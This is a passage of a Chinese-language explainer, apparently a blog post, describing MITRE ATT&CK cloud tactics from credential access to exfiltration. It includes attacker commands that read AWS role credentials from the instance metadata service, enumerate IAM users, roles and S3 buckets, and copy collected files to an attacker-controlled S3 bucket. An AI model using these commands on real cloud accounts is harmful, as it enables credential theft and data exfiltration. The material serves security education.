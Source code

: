   

 **第6类：凭证访问**  

  

凭证访问战术包括攻击者用来窃取凭证的一系列技术。这些凭证提供对云环境中系统和服务的访问或控制。获取凭据的技术包括暴力破解、查找并获取不安全存储的凭据等。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915182138.png)

通过使用云实例元数据API，可以找到登陆凭证和敏感信息。使用以下命令可以找到AWS的登录凭证，这些凭证是给群集节点相关角色来使用的。

    
    
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/nodes.darcorp-prod.com

  

 **第7类：发现**  

  

发现战术是攻击者用来探索他们获得环境访问权限的技术。这种探索有助于攻击者进行横向移动并获得对额外资源的访问权限。

  

这一类中使用的是系统、应用程序和网络中常用的发现技术，还包括一些特定的技术如S3、Lambda或route53。

如下，攻击者可以使用合法的cli命令列出云帐户中可用的服务：

  *   *   *   *   * 

    
    
    aws iam list-rolesaws iam list-usersaws iam list-attached-role-policies —role-name nodes.darcorp-prod.comaws emr list-instances --cluster-id j-3C6XNQ39VR9WLaws s3 ls

  

 **第8类：收集**  

  

在这个阶段，攻击者使用的技术可能会有所不同。为了收集信息，攻击者经常使用自动收集内部数据的技术来加速操作。下面的屏幕截图是一个真实案例，攻击者试图从蜜罐中的容器收集配置文件和机密信息：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915182139.png)

  

 **第9类：数据窃取**  

  

指攻击者使用MITRE ATT&CK框架技术窃取数据，并将其发送到受攻击者控制的目标上，可能是本地存储，也可能是其他云帐户。

下面的代码演示了攻击者试图通过ssh将收集到的所有数据复制到自己的计算机上，该计算机可能托管在云环境中。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915182140.png)

攻击者也可以使用云存储来窃取数据。以下命令使用S3 bucket复制以前收集的所有文件，并将其保存在自己的S3 bucket中。

  * 

    
    
    aws s3 cp /tmp/collected s3://asfsdfsdf/stealed --recursive

  

 **第10类：影响**  
